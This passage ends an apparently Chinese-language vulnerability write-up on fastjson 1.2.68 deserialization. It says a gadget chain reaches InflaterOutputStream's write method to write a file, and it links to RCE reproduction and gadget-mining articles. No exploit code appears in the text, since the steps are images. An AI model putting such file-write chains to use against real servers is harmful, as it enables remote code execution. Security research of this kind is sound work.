

最后会一路调用到 InflaterOutputStream 的 write 方法，



在这里进行数据的写入。



最后也是成功写入文件。

还有师傅结合写文件进行 RCE：[fastjson v1.2.68 RCE利用链复现](https://mp.weixin.qq.com/s?__biz=MzI3MzUwMTQwNg==&mid=2247485312&idx=1&sn=22dddceccf679f34705d987181a328db&scene=21&token=1393640502&lang=zh_CN#wechat_redirect)

参考：<https://b1ue.cn/archives/382.html>

参考：<http://scz.617.cn:8/web/202008081723.txt>

参考：[https://rmb122.com/2020/06/12/fastjson-1-2-68-反序列化漏洞-gadgets-挖掘笔记/](https://rmb122.com/2020/06/12/fastjson-1-2-68-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-gadgets-%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/)
